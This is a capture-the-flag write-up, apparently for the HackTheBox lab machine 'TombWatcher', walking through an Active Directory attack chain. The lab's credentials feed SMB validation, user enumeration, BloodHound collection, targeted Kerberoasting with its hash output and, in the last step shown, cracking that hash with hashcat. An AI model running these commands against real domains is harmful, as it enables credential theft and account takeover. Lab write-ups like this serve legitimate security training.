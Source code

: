 ### Initial Credential Validation

```bash
# Add domain to hosts file
echo "10.10.11.72 tombwatcher.htb DC01.tombwatcher.htb" >> /etc/hosts

# Validate SMB access
netexec smb tombwatcher.htb -u henry -p 'H3nry_987TGV!'
```
 SMB access confirmed for henry.

## Attack Chain

### 1. User Enumeration

```bash
# Enumerate domain users
netexec smb tombwatcher.htb -u henry -p 'H3nry_987TGV!' --users
```

**Domain Users Found:**
- Administrator, Henry, Alfred, sam, john, cert_admin

### 2. Bloodhound Enumeration

```bash
# Collect Bloodhound data
bloodhound-python -d tombwatcher.htb -c all -u henry -p H3nry_987TGV! -ns 10.10.11.72 --zip
```

**Key Bloodhound Findings:**
- Henry has `WriteSPN` over Alfred
- Alfred can add himself to `INFRASTRUCTURE` group
- `INFRASTRUCTURE` group can read GMSA password for `ANSIBLE_DEV$`
- `ANSIBLE_DEV$` has `ForceChangePassword` over sam
- sam has `WriteOwner` over john

### 3. Targeted Kerberoasting: Henry → Alfred

**Attack:** Abuse GenericWrite to perform targeted Kerberoasting

```bash
# Execute targeted kerberoast attack
python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
```

**Output:**
```
[+] Printing hash for (Alfred)
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$77c5d012...
```

### 4. Cracking Alfred's Hash

```bash
# Crack the TGS hash
hashcat -m 13100 alfred.hash /usr/share/wordlists/rockyou.txt
```
